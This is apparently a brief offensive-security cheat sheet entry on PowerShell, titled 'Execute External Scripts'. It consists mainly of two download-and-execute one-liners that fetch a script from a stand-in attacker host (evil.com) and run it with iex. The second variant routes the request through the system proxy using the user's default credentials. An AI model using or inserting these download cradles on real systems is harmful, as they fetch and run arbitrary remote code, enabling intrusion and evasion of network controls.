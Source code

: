 # PowerShell

## Execute External Scripts

Using `DownloadString` and `Invoke-WebRequest (iex)`, we can execute external PowerShell scripts.

```powershell
iex((New-Object Net.WebClient).DownloadString("https://evil.com/evil.ps1"))
```

Additionally, it is possible to run it through a proxy.

```powershell
$p = [System.Net.WebRequest]::GetSystemWebProxy()
$p.Credentials=[System.Net.CredentialCache]::DefaultCredentials
$w=New-Object net.webclient;$w.proxy=$p
$w.UseDefaultCredentials=$true
iex $($w.DownloadString("https://evil.com/evil.ps1"))
```
